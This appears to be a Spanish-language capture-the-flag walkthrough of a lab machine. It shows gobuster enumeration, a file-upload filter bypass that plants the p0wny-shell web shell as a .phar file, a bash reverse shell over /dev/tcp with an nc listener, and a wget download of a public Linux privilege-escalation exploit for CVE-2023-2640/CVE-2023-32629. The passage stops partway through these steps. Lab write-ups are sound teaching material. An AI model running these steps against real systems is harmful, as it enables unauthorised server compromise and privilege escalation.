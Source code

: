 ===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/css                  (Status: 403) [Size: 279]
/fonts                (Status: 403) [Size: 279]
/images               (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 5739]
/js                   (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
/uploads              (Status: 403) [Size: 279]
/vendor               (Status: 403) [Size: 279]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
===============================================================

obtenemos el directorio /uploads

aca tenemos un escenario donde podemos cargar una archivo a la pagina web
podriamos usar esta herramienta que genera una shell atraves de la carga
de un archivo 

clonamos esta herramienta : https://github.com/flozz/p0wny-shell.git

al probar la carga del archivo .php no nos lo permite pero una archivo .phar 
si por lo que procedemos a cambiar el nombre y la extencion del archivo y
lo cargamos a la pagina.

ya estando el archivo cargado ingresamos a la siguiente ruta 

http://10.10.11.241:8080/uploads/imagen.phar

obteniendo una shell del servidor desde ahi podemos ejecutar una reverseshell
a nuestro equipo de la siguiente forma:
/usr/bin/bash -c 'bash -i >& /dev/tcp/<nuestra_ip>/<nuestro_puerto> 0>&1'

y nos ponemos en escucha:
nc -lnvp <nuestro_puerto>

copiamos en la carpeta exploit la siguiente vulneravilidad

❯ git clone https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629.git

ingresamos a la carpeta 

❯ cd CVE-2023-2640-CVE-2023-32629

creamos un servidor de python

python3 -m http.server

en la maquina en la carpeta de tmp nos desacrgamos el exploit con wget 

wget 10.10.14.110:8000/exploit.sh

le damos permisoa de ejecucion con 
